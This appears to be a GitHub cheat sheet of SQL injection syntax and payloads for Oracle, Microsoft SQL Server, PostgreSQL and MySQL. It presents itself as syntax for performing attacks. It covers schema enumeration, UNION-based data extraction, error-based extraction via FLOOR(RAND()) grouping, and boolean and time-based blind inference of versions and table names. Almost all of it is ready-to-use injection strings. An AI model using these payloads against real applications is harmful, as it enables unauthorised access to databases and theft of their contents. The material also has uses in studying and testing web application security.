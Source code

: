 <h1>SQL Injection Cheat Sheets</h1>
<p>This contains examples of useful syntax to perform SQL injection Attacks.</p>

<a href="https://github.com/kaung-khant-zaw223/cheat-sheets/blob/main/SQL_Injection_ByPass_Payloads.md">SQL Injection Bypass Payloads</a>

<h2>String Concatenation</h2>
<p><b>Oracle      :</b> 'foo'||'bar'</p>
<p><b>Microsoft   :</b> 'foo'+'bar'</p>
<p><b>PostgreSQL:</b> 'foo'||'bar' </p>
<p><b>MySQL:</b> 'foo' 'bar'</p>

<h2>Substring</h2>
<p><b>Oracle:</b> SUBSTR('foobar', 4, 2)</p>
<p><b>Microsoft:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>PostgreSQL:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>MySQL:</b> SUBSTRING('foobar', 4, 2)</p>

<h2>Comments</h2>
<p><b>Oracle:</b> --comment</p>
<p><b>Microsoft:</b> --comment (or) /*comment*/ </p>
<p><b>PostgreSQL:</b> --comment (or) /*comment*/ </p>
<p><b>MySQL:</b> #comment (or) --comment (or) /*comment*/</p>

<h2>Database Version</h2>
<p><b>Oracle:</b> SELECT banner FROM v$version (or) SELECT version FROM v$instance</p>
<p><b>Microsoft:</b> SELECT @@version</p>
<p><b>PostgreSQL: </b> SELECT version()</p>
<p><b>MySQL:</b> SELECT @@version </p>

<h2>Database Contents</h2>
<p><b>Oracle:</b> SELECT * FROM all_tables (or) SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>Microsoft:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>PostgreSQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>MySQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>

<h2>Conditional Errors</h2>
<p><b>Oracle:</b> SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual</p>
<p><b>Microsoft:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END</p>
<p><b>PostgreSQL:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END</p>
<p><b>MySQL:</b>SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')</p>

<h2>UNION BASED</h2>
<p>order by </p>
<p>union select</p>
<p>group_concat(table_name) from information_schema.tables where table_schema=database()</p>
<p>group_concat(column_name) from information_schema.columns where table_name='table_name'</p>
<p>group_concat(data) from table_name</p>

<h2>ERROR BASED</h2>
<b>Intro</b><br> 

SELECT count(*) from information_schema.tables;<br>
SELECT rand();<br>
SELECT floor(1.5);<br>
select 1 from y;<br>
select count(*),username from users group by username;<br>

<b>Variable</b><br>
SELECT count(*),CONCAT((SELECT @@version),0x3a,rand()) x FROM information_schema.tables group by x;<br>
SELECT @x;<br>
######
SELECT count(*),CONCAT((SELECT @@version),0x3a,floor(rand()*2)) x FROM information_schema.tables group by x;<br>
SELECT @x;<br>

<b> Version</b><br>
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)<br>

<b>Table</b><br>
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (table_name) from information_schema.tables where table_schema=database() limit 0,1),0x3a,FLOOR(RAND(0)*2)) x<br> FROM information_schema.tables GROUP BY x) y)<br>

<h2>Boolean Based Blind</h2>
<b>Intro</b><br>
select substr('abcde',1,1);<br>
select ascii('a');<br>
select ascii(substr(@@version,1,1));<br>

<b>True or False</b><br>
select ascii(substr(@@version,1,1)) < 50;<br>
select ascii(substr(@@version,1,1)) < 40;<br>
select ascii(substr(@@version,1,1)) = 49;<br>

<b>Testing</b><br>
1 and 1=1 -> True<br>
1 and 1=2 -> False<br>

<b>Version</b><br>
and ascii(substr(@@version,1,1)) = 49 -> First Character<br>
and ascii(substring(version(),2,1)) = 48 -> Second Character<br>

<b>Table</b><br>
and ascii(substring((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100<br>

<h2>Time Based Blind</h2>
<b>Intro</b>
SELECT IF(500<1000, "YES", "NO");<br>
sleep(5);<br>
and if(500<1000, sleep(5), NULL) -> Sleep<br>
and if(500>1000, sleep(5), NULL) -> Do Not Sleep<br>

<b>Version</b><br>
and if(ascii(substr(version(),1,1)) = 49, sleep(5), NULL)<br>

<b>Table</b><br>
and if(ascii(substr((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100, sleep(5), NULL)<br>
